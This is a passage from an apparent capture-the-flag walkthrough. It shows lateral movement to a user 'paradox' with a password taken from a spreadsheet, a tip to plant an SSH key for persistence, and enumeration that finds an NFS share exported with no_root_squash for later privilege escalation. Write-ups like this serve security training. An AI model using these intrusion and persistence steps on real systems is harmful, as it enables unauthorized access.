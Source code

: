 *Hint: This flag belongs to james*

## Lateral move (www-data -> paradox)

There are 2 users listed under the `/home` folder. Let's try the password found previously.

~~~
bash-4.4$ ls -la /home
total 0
drwxr-xr-x.  4 root    root     34 Nov  8 19:34 .
drwxr-xr-x. 17 root    root    244 Nov 18 19:16 ..
drwx------.  3 james   james   112 Nov 17 21:15 james
drwx------.  4 paradox paradox 203 Nov 18 18:29 paradox
~~~

We can connect as `paradox` with the password found previously (`ShibesAreGreat123`) in the xls spreadsheet.

At this stage, you can add your SSH public key to `/home/paradox/.ssh/authorized_keys` to connect via SSH directly.

## NFS service

I checked the user privileges but found nothing interesting. Same for files owned by the user. The user doesn't belong to any particular group either.

~~~
[paradox@localhost ~]$ sudo -l
[sudo] password for paradox: 
Sorry, user paradox may not run sudo on localhost.
[paradox@localhost ~]$ find / -type f -user james -exec ls -l {} + 2>/dev/null
-rw-rw----. 1 james mail 0 Nov  8 01:31 /var/spool/mail/james
[paradox@localhost ~]$ id
uid=1001(paradox) gid=1001(paradox) groups=1001(paradox)
~~~

Running `linpeas.sh` on the target will reveal an interesting NFS share (`/home/james`), with the `no_root_squash` option set. We'll come back to this later for the privilege escalation, but at this stage, we only care about the NFS share.

~~~
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
~~~

We confirm that NFS is running on port 2049:

~~~
[paradox@localhost ~]$ rpcinfo -p | grep nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
~~~
